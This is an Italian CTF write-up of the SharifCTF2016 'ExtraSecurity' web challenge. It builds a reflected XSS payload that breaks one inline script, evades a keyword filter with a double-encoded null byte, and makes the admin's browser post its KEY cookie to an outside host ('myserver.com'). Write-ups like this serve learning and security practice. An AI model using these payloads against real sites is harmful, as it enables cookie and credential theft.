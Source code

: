 ```yaml
---
layout: post
title:  "SharifCTF2016 - ExtraSecurity"
date:   2016-12-19 15:30
categories: CTF
tags: [web,SharifCTF2016]
author: jbz
---
```



Questa sfida web richiedeva di fare 'firmare' all'utente amministratore del sito un numero.  

veniva offerta la possibilità di firmare con la propria chiave (impostata dal server in un cookie `KEY`) o di richiedere all'amministratore attraverso un form di effettuare la firma per noi. Dal testo non era chiaro quale fosse esattamente la strada da prendere: se fosse necessario rubare il cookie all'admin o se bastasse effettivamente utilizzare il form con qualche modifica.
Il testo specificava esplicitamente che l'admin avrebbe utilizzato Chrome per vedere le richieste e che quindi sarebbe intervenuto l'XSS Auditor.

Il primo problema consisteva nel fatto che nella propria pagina per effettuare la firma, all'invio del form, veniva visualizzato un popup di errore e si veniva reindirizzati prima di qualsiasi altra azione.

![Il popup di errore prima del reindirizzamento](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_4.png)

`http://ctf.sharif.edu:8083/wait_and_real_sign.php?content=259&id=<team_id>`

Dal sorgente pagina si poteva notare questo codice:

```
<script>
    alert("Sorry, server is busy for a while!");
    document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0l4eEkud0pZRGN2QWdSMG03aGUxT0VmNEZiNHZjQThZ";
</script>
```
Che è quello che causava la reindirizzazione.

Più in basso si notava anche il seguente codice, che però non veniva eseguito:

```
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MjU5"),
            content: "MjU5",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0l4eEkud0pZRGN2QWdSMG03aGUxT0VmNEZiNHZjQThZ'
        };
        postForm('/sign_and_store.php', body);
    });
</script>
```

Con qualche test breve si intuiva subito che il campo GET `id` era plausibilmente vulnerabile ad XSS ma che un filtro custom bloccava le richieste contenenti la maggior parte delle keyword o simboli usati per tale scopo: eval, alert, document, this, etc. C'era inoltre un limite di caratteri che rendeva impossibile l'utilizzo di [jsfuck](http://www.jsfuck.com).

La nostra idea era quella di sfruttare la vulnerabilità nel campo `id`, il cui contenuto veniva riflesso sia nel primo script che nel secondo per rubare il cookie `KEY` all'admin ed effettuare la firma in autonomia.

Cerchiamo quindi un payload che fermi l'esecuzione del primo script e che ci permetta invece di modificare l'url di destinazione in postForm nel secondo, il tutto senza venire bloccati dal filtro di Chrome.

Il primo step è trovare un modo per rompere il primo script ma non il secondo, e questo è possibile grazie alla scelta degli organizzatori di usare apici doppi (") nel primo e apici singoli (') nel secondo:

`http://ctf.sharif.edu:8083/wait_and_real_sign.php?id=<team_id>};prompt(c['KEY']);a={'p%27:'"&content=1`

Questo payload contiene un apice doppio alla fine che rompe la sintassi del primo script, mentre chiude con un apice semplice il campo id nel secondo script, aggiunge `prompt(c['KEY'])` (equivalente di `alert(c['KEY']` ma non filtrato), e crea un nuovo dict per completare la sintassi già esistente.

Risulta quindi

```
<script>
    alert("Sorry, server is busy for a while!");
    document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};prompt(c['KEY']);a={'p':'"";
</script>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MQ=="),
            content: "MQ==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};prompt(c['KEY']);a={'p':'"'
        };
        postForm('/sign_and_store.php', body);
    });
</script>

```

![PoC](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_2.png)

Ora il grosso problema era il fatto che anche qualsiasi declinazione della parola `post`, `xml` o simili faceva scattare il filtro.
Dopo diversi tentativi, avendo intuito che il filtro fosse realizzato applicativamente (e che quindi non ci fosse un WAF vero e proprio), ed essendo l'applicazione in PHP, iniziammo a provare inserendo null bytes (%00) e altri caratteri come %0a e %0d.
Una volta scoperto che effettivamente il filtro falliva a processare qualsiasi cosa posta dopo un null byte, continuando i test notammo che il bypass funzionava anche effettuando il double encode di %00, cioè %2500 il che preveniva che il null byte venisse stampato nella pagina, che per qualche motivo causava qualche problema nell'esecuzione dello script (al momento del writeup non riesco a riprodurre il problema..).

Il payload finale quindi consisteva in:

`http://ctf.sharif.edu:8083/wait_and_real_sign.php?id=<team_id>'};%0a/*%2500*/%0apostForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"&content=1`

Che risulta nel seguente codice:

```
<script>
    alert("Sorry, server is busy for a while!");
    document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};
/*%00*/
postForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"";
</script>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MQ=="),
            content: "MQ==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};
/*%00*/
postForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"'
        };
        postForm('/sign_and_store.php', body);
    });
</script>

```

![Gli errori nella console dimostrano la mancata esecuzione del primo script e la corretta sintassi del secondo](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_3.png)

Da `garbage` in poi il codice serviva solo per non causare errori di sintassi.
Da notare che il filtro XSS di Chrome in questo scenario non si è mai considerato in quanto la XSS non richiede tag HTML poiché il payload finisce già all'interno di tag `<script>`.

La richiesta di firma all'admin inviava una POST che conteneva un campo URL che lasciava intendere che fosse quello che l'admin avrebbe visitato per effettuare la firma. Bisognava quindi modificare quel campo con il payload descritto sopra.

Purtroppo non siamo riusciti a risolverla in tempo per ottenere il punteggio.
